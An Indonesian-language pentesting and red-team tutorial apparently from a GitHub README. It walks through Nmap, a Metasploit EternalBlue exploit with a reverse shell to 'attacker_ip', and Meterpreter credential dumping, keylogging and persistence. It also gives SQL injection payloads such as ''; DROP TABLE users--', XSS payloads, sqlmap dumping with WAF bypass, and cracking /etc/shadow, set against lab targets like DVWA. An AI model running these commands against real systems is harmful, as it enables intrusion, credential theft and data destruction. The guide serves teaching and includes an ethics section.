



# 🔴 Panduan Lengkap Red Team & Penetration Testing
## Dari Pemula hingga Ahli Profesional

---

## 📋 Daftar Isi
1. [Pengenalan Red Team & Penetration Testing](#pengenalan)
2. [Metodologi dan Framework](#metodologi)
3. [Fase-fase Penetration Testing](#fase-fase)
4. [Tools dan Teknik](#tools-dan-teknik)
5. [Praktik Hands-on](#praktik-hands-on)
6. [Sertifikasi dan Karir](#sertifikasi)
7. [Etika dan Legal](#etika)

---

## 🎯 Pengenalan Red Team & Penetration Testing {#pengenalan}

### Apa itu Red Team?
**Red Team** adalah tim yang berperan sebagai penyerang (adversary) untuk menguji keamanan sistem, jaringan, dan organisasi secara menyeluruh. Berbeda dengan penetration testing tradisional, Red Team melakukan simulasi serangan yang lebih realistis dan komprehensif.

### Perbedaan Red Team vs Penetration Testing

| Aspek | Red Team | Penetration Testing |
|-------|----------|-------------------|
| **Scope** | Seluruh organisasi | Sistem/aplikasi tertentu |
| **Durasi** | Minggu/bulan | Hari/minggu |
| **Pendekatan** | Stealth, realistis | Metodis, dokumentatif |
| **Tujuan** | Menguji deteksi & respons | Menemukan kerentanan |

### Skill yang Dibutuhkan
- **Technical Skills**: Networking, Programming, System Administration
- **Soft Skills**: Problem solving, Critical thinking, Communication
- **Security Knowledge**: Vulnerability assessment, Exploit development
- **Tools Mastery**: Kali Linux, Metasploit, Burp Suite, dll

---

## 📊 Metodologi dan Framework {#metodologi}

### 1. OWASP Testing Guide
Framework komprehensif untuk web application security testing.

### 2. NIST Cybersecurity Framework
- **Identify**: Identifikasi aset dan risiko
- **Protect**: Implementasi safeguards
- **Detect**: Deteksi aktivitas anomali
- **Respond**: Respons terhadap insiden
- **Recover**: Pemulihan dari serangan

### 3. MITRE ATT&CK Framework
Framework untuk memahami taktik, teknik, dan prosedur (TTP) penyerang.

**Taktik Utama:**
- Initial Access
- Execution
- Persistence
- Privilege Escalation
- Defense Evasion
- Credential Access
- Discovery
- Lateral Movement
- Collection
- Exfiltration
- Impact

### 4. PTES (Penetration Testing Execution Standard)
Standar industri untuk pelaksanaan penetration testing.

---

## 🔄 Fase-fase Penetration Testing {#fase-fase}

### Phase 1: Pre-Engagement
**Tujuan**: Persiapan dan perencanaan
- Mendefinisikan scope dan objectives
- Menandatangani kontrak dan NDA
- Menyiapkan environment testing
- Membuat timeline dan deliverables

**Deliverables:**
- Statement of Work (SOW)
- Rules of Engagement (RoE)
- Testing timeline

### Phase 2: Intelligence Gathering (Reconnaissance)
**Tujuan**: Mengumpulkan informasi tentang target

#### Passive Reconnaissance
- **OSINT (Open Source Intelligence)**
- **Social Media Intelligence**
- **DNS Enumeration**
- **Whois Lookup**

#### Active Reconnaissance
- **Port Scanning**
- **Service Enumeration**
- **Vulnerability Scanning**

**Tools yang Digunakan:**
- `nmap` - Network scanning
- `recon-ng` - OSINT framework
- `theHarvester` - Email/subdomain gathering
- `maltego` - Link analysis
- `shodan` - Internet-connected device search

### Phase 3: Vulnerability Assessment
**Tujuan**: Identifikasi kerentanan sistem

**Aktivitas:**
- Automated vulnerability scanning
- Manual testing
- Configuration review
- Code review (jika tersedia)

**Tools:**
- `nessus` - Vulnerability scanner
- `openvas` - Open source vulnerability scanner
- `nikto` - Web server scanner
- `dirb/dirbuster` - Directory brute forcing

### Phase 4: Exploitation
**Tujuan**: Mengeksploitasi kerentanan yang ditemukan

**Teknik:**
- Buffer overflow
- SQL injection
- Cross-site scripting (XSS)
- Command injection
- Privilege escalation

**Tools:**
- `metasploit` - Exploitation framework
- `sqlmap` - SQL injection tool
- `burp suite` - Web application testing
- `john the ripper` - Password cracking
- `hashcat` - Advanced password recovery

### Phase 5: Post-Exploitation
**Tujuan**: Mempertahankan akses dan mengumpulkan data

**Aktivitas:**
- Privilege escalation
- Lateral movement
- Data exfiltration
- Persistence mechanisms
- Covering tracks

**Tools:**
- `meterpreter` - Post-exploitation payload
- `empire` - PowerShell post-exploitation
- `cobalt strike` - Advanced threat emulation
- `mimikatz` - Credential extraction

### Phase 6: Reporting
**Tujuan**: Dokumentasi temuan dan rekomendasi

**Komponen Laporan:**
- Executive summary
- Technical findings
- Risk assessment
- Remediation recommendations
- Appendices

---

## 🛠️ Tools dan Teknik Utama {#tools-dan-teknik}

### Kali Linux - OS Utama untuk Penetration Testing

**Instalasi dan Setup:**
```bash
# Download Kali Linux ISO
# Buat VM atau install di hardware
# Update system
sudo apt update && sudo apt upgrade -y

# Install additional tools
sudo apt install -y metasploit-framework burpsuite nmap
```

### Network Scanning dengan Nmap

**Basic Scanning:**
```bash
# Ping sweep
nmap -sn 192.168.1.0/24

# Port scan
nmap -sS -p 1-65535 target_ip

# Service version detection
nmap -sV target_ip

# OS detection
nmap -O target_ip

# Aggressive scan
nmap -A target_ip
```

**Advanced Nmap Techniques:**
```bash
# Stealth scan
nmap -sS -f -D RND:10 target_ip

# UDP scan
nmap -sU target_ip

# Script scanning
nmap --script vuln target_ip
```

### Web Application Testing dengan Burp Suite

**Setup Burp Suite:**
1. Install Burp Suite Professional
2. Configure browser proxy (127.0.0.1:8080)
3. Install Burp CA certificate
4. Start intercepting traffic

**Common Testing Techniques:**
- **SQL Injection Testing**
- **XSS Testing**
- **CSRF Testing**
- **Authentication Bypass**
- **Session Management Testing**

### Exploitation dengan Metasploit

**Basic Metasploit Usage:**
```bash
# Start Metasploit
msfconsole

# Search for exploits
search type:exploit platform:windows

# Use an exploit
use exploit/windows/smb/ms17_010_eternalblue

# Set target
set RHOSTS target_ip

# Set payload
set payload windows/x64/meterpreter/reverse_tcp
set LHOST attacker_ip

# Run exploit
exploit
```

**Post-Exploitation dengan Meterpreter:**
```bash
# Get system information
sysinfo

# Escalate privileges
getsystem

# Dump hashes
hashdump

# Screenshot
screenshot

# Keylogger
keyscan_start
keyscan_dump
```

---

## 💻 Praktik Hands-on {#praktik-hands-on}

### Lab Environment Setup

**Vulnerable Applications untuk Practice:**
1. **DVWA (Damn Vulnerable Web Application)**
2. **WebGoat**
3. **Metasploitable**
4. **VulnHub VMs**
5. **HackTheBox**
6. **TryHackMe**

**Setup Lab dengan Docker:**
```bash
# DVWA
docker run --rm -it -p 80:80 vulnerables/web-dvwa

# WebGoat
docker run -p 8080:8080 -t webgoat/webgoat-8.0

# Metasploitable
# Download dari Rapid7 dan import ke VM
```

### Skenario Testing Praktis

#### Skenario 1: Web Application Penetration Test
1. **Reconnaissance**
   - Identify web technologies
   - Directory enumeration
   - Parameter discovery

2. **Vulnerability Assessment**
   - SQL injection testing
   - XSS testing
   - Authentication testing

3. **Exploitation**
   - Exploit SQL injection
   - Gain admin access
   - Extract sensitive data

#### Skenario 2: Network Penetration Test
1. **Network Discovery**
   - Host discovery
   - Port scanning
   - Service enumeration

2. **Vulnerability Identification**
   - SMB vulnerabilities
   - Weak credentials
   - Unpatched services

3. **Exploitation & Lateral Movement**
   - Initial compromise
   - Privilege escalation
   - Domain enumeration
   - Lateral movement

---

## 🎓 Sertifikasi dan Pengembangan Karir {#sertifikasi}

### Sertifikasi Entry Level
1. **CompTIA Security+**
   - Fundamental security concepts
   - Risk management
   - Cryptography basics

2. **CompTIA PenTest+**
   - Penetration testing methodology
   - Vulnerability assessment
   - Reporting and communication

### Sertifikasi Intermediate
1. **CEH (Certified Ethical Hacker)**
   - Ethical hacking methodology
   - Footprinting and reconnaissance
   - System hacking

2. **GCIH (GIAC Certified Incident Handler)**
   - Incident response
   - Digital forensics
   - Malware analysis

### Sertifikasi Advanced
1. **OSCP (Offensive Security Certified Professional)**
   - Hands-on penetration testing
   - Exploit development
   - Report writing

2. **CISSP (Certified Information Systems Security Professional)**
   - Security architecture
   - Risk management
   - Security governance

3. **CISM (Certified Information Security Manager)**
   - Information security management
   - Risk management
   - Incident response management

### Path Karir Red Team
```
Junior Security Analyst
↓
Penetration Tester
↓
Senior Penetration Tester
↓
Red Team Operator
↓
Senior Red Team Operator
↓
Red Team Lead
↓
Security Consultant/Manager
```

---

## ⚖️ Etika dan Aspek Legal {#etika}

### Prinsip Etika Hacker
1. **Do No Harm** - Jangan merusak sistem
2. **Respect Privacy** - Hormati privasi data
3. **Responsible Disclosure** - Laporkan kerentanan dengan bertanggung jawab
4. **Continuous Learning** - Terus belajar dan berbagi pengetahuan

### Aspek Legal
- **Authorization** - Selalu dapatkan izin tertulis
- **Scope Limitation** - Patuhi batasan yang ditetapkan
- **Data Protection** - Lindungi data sensitif
- **Documentation** - Dokumentasikan semua aktivitas

### Responsible Disclosure Process
1. **Discovery** - Temukan kerentanan
2. **Initial Contact** - Hubungi vendor/organization
3. **Detailed Report** - Berikan laporan detail
4. **Coordination** - Koordinasi timeline perbaikan
5. **Public Disclosure** - Publikasi setelah patch tersedia

---

## 📚 Sumber Belajar Tambahan

### Books
- "The Web Application Hacker's Handbook" - Dafydd Stuttard
- "Metasploit: The Penetration Tester's Guide" - David Kennedy
- "Black Hat Python" - Justin Seitz
- "Red Team Field Manual" - Ben Clark

### Online Resources
- **OWASP** - Web application security
- **SANS** - Security training and certification
- **Cybrary** - Free cybersecurity training
- **Pentester Academy** - Hands-on security courses

### Practice Platforms
- **HackTheBox** - Realistic penetration testing labs
- **TryHackMe** - Beginner-friendly security challenges
- **VulnHub** - Vulnerable VMs for practice
- **OverTheWire** - Wargames and challenges

---

## 🔄 Flowchart Metodologi Red Team

### Flowchart Utama Penetration Testing Process



### Flowchart Web Application Testing



### Flowchart Network Penetration Testing



---

## 🛠️ Panduan Praktis Tools Utama

### 1. Nmap - Network Discovery & Security Auditing

#### Instalasi
```bash
# Ubuntu/Debian
sudo apt install nmap

# CentOS/RHEL
sudo yum install nmap

# Windows
# Download dari https://nmap.org/download.html
```

#### Penggunaan Dasar
```bash
# Host discovery
nmap -sn 192.168.1.0/24

# Basic port scan
nmap 192.168.1.100

# Scan specific ports
nmap -p 22,80,443 192.168.1.100

# Scan port range
nmap -p 1-1000 192.168.1.100

# TCP SYN scan (stealth)
nmap -sS 192.168.1.100

# UDP scan
nmap -sU 192.168.1.100

# Service version detection
nmap -sV 192.168.1.100

# OS detection
nmap -O 192.168.1.100

# Aggressive scan
nmap -A 192.168.1.100

# Script scanning
nmap --script default 192.168.1.100
nmap --script vuln 192.168.1.100
```

#### Nmap Scripts untuk Vulnerability Assessment
```bash
# SMB vulnerabilities
nmap --script smb-vuln-* 192.168.1.100

# HTTP vulnerabilities
nmap --script http-vuln-* 192.168.1.100

# SSL/TLS testing
nmap --script ssl-* 192.168.1.100

# Database testing
nmap --script mysql-* 192.168.1.100
nmap --script oracle-* 192.168.1.100
```

### 2. Metasploit Framework - Exploitation Platform

#### Instalasi dan Setup
```bash
# Kali Linux (pre-installed)
msfconsole

# Ubuntu/Debian
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
chmod 755 msfinstall
./msfinstall

# Initialize database
sudo msfdb init
```

#### Basic Commands
```bash
# Start Metasploit
msfconsole

# Update Metasploit
msfupdate

# Search for exploits
search type:exploit platform:windows
search cve:2017-0144

# Get information about module
info exploit/windows/smb/ms17_010_eternalblue

# Use a module
use exploit/windows/smb/ms17_010_eternalblue

# Show options
show options

# Set required options
set RHOSTS 192.168.1.100
set LHOST 192.168.1.50

# Show payloads
show payloads

# Set payload
set payload windows/x64/meterpreter/reverse_tcp

# Run exploit
exploit
run
```

#### Meterpreter Commands
```bash
# System information
sysinfo
getuid

# Process management
ps
migrate <PID>

# File system
pwd
ls
cd
download
upload

# Network
netstat
portfwd

# Privilege escalation
getsystem

# Credential harvesting
hashdump
load mimikatz
wdigest

# Persistence
run persistence -X

# Screenshot
screenshot

# Keylogger
keyscan_start
keyscan_dump
keyscan_stop
```

### 3. Burp Suite - Web Application Security Testing

#### Setup dan Konfigurasi
1. **Install Burp Suite Professional**
2. **Configure Browser Proxy:**
   - Firefox: Settings → Network Settings → Manual proxy
   - Set HTTP Proxy: 127.0.0.1:8080
   - Check "Use this proxy server for all protocols"

3. **Install CA Certificate:**
   - Browse to http://burp
   - Download CA Certificate
   - Install in browser

#### Core Features dan Penggunaan

##### Proxy
```
1. Intercept HTTP/HTTPS traffic
2. Modify requests/responses
3. Analyze application behavior
4. Identify entry points
```

##### Spider
```
1. Automated crawling
2. Content discovery
3. Parameter identification
4. Form analysis
```

##### Scanner (Professional)
```
1. Automated vulnerability scanning
2. Active/Passive scanning modes
3. Custom scan configurations
4. Detailed vulnerability reports
```

##### Intruder
```
1. Automated attacks
2. Brute force attacks
3. Fuzzing
4. Parameter manipulation

Attack Types:
- Sniper: Single payload set
- Battering ram: Same payload for all positions
- Pitchfork: Multiple payload sets (parallel)
- Cluster bomb: Multiple payload sets (all combinations)
```

##### Repeater
```
1. Manual request manipulation
2. Response analysis
3. Parameter testing
4. Authentication bypass testing
```

#### Common Testing Scenarios

##### SQL Injection Testing
```
1. Identify injection points
2. Test with basic payloads:
   - ' OR '1'='1
   - ' UNION SELECT NULL--
   - '; DROP TABLE users--

3. Use SQLMap integration
4. Analyze database structure
5. Extract sensitive data
```

##### XSS Testing
```
1. Identify input fields
2. Test with payloads:
   - <script>alert('XSS')</script>
   - 
   - javascript:alert('XSS')

3. Test different contexts:
   - HTML context
   - Attribute context
   - JavaScript context
   - CSS context
```

### 4. SQLMap - Automated SQL Injection Tool

#### Instalasi
```bash
# Kali Linux (pre-installed)
sqlmap

# Manual installation
git clone https://github.com/sqlmapproject/sqlmap.git
cd sqlmap
python sqlmap.py
```

#### Basic Usage
```bash
# Test single URL
sqlmap -u "http://target.com/page.php?id=1"

# Test with POST data
sqlmap -u "http://target.com/login.php" --data="username=admin&password=pass"

# Use request file from Burp
sqlmap -r request.txt

# Specify parameter to test
sqlmap -u "http://target.com/page.php?id=1&name=test" -p id

# Database enumeration
sqlmap -u "http://target.com/page.php?id=1" --dbs

# Table enumeration
sqlmap -u "http://target.com/page.php?id=1" -D database_name --tables

# Column enumeration
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T table_name --columns

# Dump data
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T table_name --dump
```

#### Advanced Options
```bash
# Bypass WAF
sqlmap -u "http://target.com/page.php?id=1" --tamper=space2comment

# Use proxy
sqlmap -u "http://target.com/page.php?id=1" --proxy="http://127.0.0.1:8080"

# Custom User-Agent
sqlmap -u "http://target.com/page.php?id=1" --user-agent="Custom Agent"

# Batch mode (non-interactive)
sqlmap -u "http://target.com/page.php?id=1" --batch

# Risk and level
sqlmap -u "http://target.com/page.php?id=1" --risk=3 --level=5
```

### 5. John the Ripper - Password Cracking

#### Instalasi
```bash
# Kali Linux (pre-installed)
john

# Ubuntu/Debian
sudo apt install john

# Compile from source
git clone https://github.com/magnumripper/JohnTheRipper.git
cd JohnTheRipper/src
make
```

#### Basic Usage
```bash
# Crack password hashes
john hashes.txt

# Use specific wordlist
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

# Show cracked passwords
john --show hashes.txt

# Crack with rules
john --rules --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

# Brute force attack
john --incremental hashes.txt

# Crack specific hash format
john --format=NT hashes.txt
```

#### Hash Format Examples
```bash
# MD5
john --format=Raw-MD5 md5hashes.txt

# SHA1
john --format=Raw-SHA1 sha1hashes.txt

# Windows NTLM
john --format=NT nthashes.txt

# Linux shadow file
john /etc/shadow

# ZIP password
zip2john encrypted.zip > zip.hash
john zip.hash
```

---

## 🎯 Skenario Praktis Step-by-Step

### Skenario 1: Web Application Penetration Test

#### Target: DVWA (Damn Vulnerable Web Application)

##### Step 1: Setup Environment
```bash
# Install DVWA using Docker
docker run --rm -it -p 80:80 vulnerables/web-dvwa

# Access DVWA
# Browser: http://localhost
# Login: admin/password
```

##### Step 2: Reconnaissance
```bash
# Nmap scan
nmap -sV -sC localhost

# Directory enumeration
dirb http://localhost /usr/share/wordlists/dirb/common.txt

# Technology identification
whatweb http://localhost
```

##### Step 3: Vulnerability Assessment
```bash
# Nikto scan
nikto -h http://localhost

# Manual testing with Burp Suite
# 1. Configure proxy
# 2. Browse application
# 3. Analyze requests/responses
```

##### Step 4: SQL Injection Testing
```bash
# Manual testing
# URL: http://localhost/vulnerabilities/sqli/?id=1' OR '1'='1&Submit=Submit

# SQLMap testing
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=...; security=low"
```

##### Step 5: XSS Testing
```bash
# Reflected XSS
# URL: http://localhost/vulnerabilities/xss_r/?name=<script>alert('XSS')</script>

# Stored XSS
# Input: <script>alert('Stored XSS')</script>
```

### Skenario 2: Network Penetration Test

#### Target: Metasploitable VM

##### Step 1: Setup Lab
```bash
# Download Metasploitable
# Import to VMware/VirtualBox
# Start VM and note IP address
```

##### Step 2: Network Discovery
```bash
# Host discovery
nmap -sn 192.168.1.0/24

# Port scan
nmap -sS -p- 192.168.1.100

# Service enumeration
nmap -sV -sC 192.168.1.100
```

##### Step 3: Vulnerability Assessment
```bash
# Vulnerability scan
nmap --script vuln 192.168.1.100

# Specific service testing
nmap --script smb-vuln-* 192.168.1.100
```

##### Step 4: Exploitation
```bash
# Start Metasploit
msfconsole

# Use exploit
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.1.100
set LHOST 192.168.1.50
exploit

# Post-exploitation
sysinfo
getuid
shell
```

---

## 📊 Checklists untuk Penetration Testing

### Pre-Engagement Checklist
- [ ] Scope definition completed
- [ ] Statement of Work signed
- [ ] Rules of Engagement established
- [ ] Emergency contacts identified
- [ ] Testing environment prepared
- [ ] Tools and scripts ready
- [ ] Team roles assigned
- [ ] Timeline confirmed

### Reconnaissance Checklist
- [ ] OSINT gathering completed
- [ ] DNS enumeration performed
- [ ] Subdomain discovery done
- [ ] Social media intelligence gathered
- [ ] Network range identification
- [ ] Technology stack identified
- [ ] Entry points documented
- [ ] Attack surface mapped

### Vulnerability Assessment Checklist
- [ ] Automated scanning completed
- [ ] Manual testing performed
- [ ] Configuration review done
- [ ] Default credentials tested
- [ ] Patch level assessment
- [ ] Service-specific tests
- [ ] Web application testing
- [ ] Wireless security assessment

### Exploitation Checklist
- [ ] Exploit selection justified
- [ ] Proof of concept developed
- [ ] Impact assessment completed
- [ ] Screenshots captured
- [ ] Evidence preserved
- [ ] System stability maintained
- [ ] Cleanup procedures followed
- [ ] Access documented

### Post-Exploitation Checklist
- [ ] Privilege escalation attempted
- [ ] Lateral movement explored
- [ ] Domain enumeration performed
- [ ] Sensitive data identified
- [ ] Persistence mechanisms tested
- [ ] Logging and monitoring bypassed
- [ ] Network pivoting documented
- [ ] Business impact assessed

### Reporting Checklist
- [ ] Executive summary written
- [ ] Technical findings documented
- [ ] Risk ratings assigned
- [ ] Remediation recommendations provided
- [ ] Supporting evidence included
- [ ] Timeline for fixes suggested
- [ ] Retest procedures outlined
- [ ] Appendices completed

---

*Dokumentasi lengkap Red Team & Penetration Testing - Versi 1.0*
*Dibuat untuk pembelajaran dan pengembangan profesional dalam bidang cybersecurity*
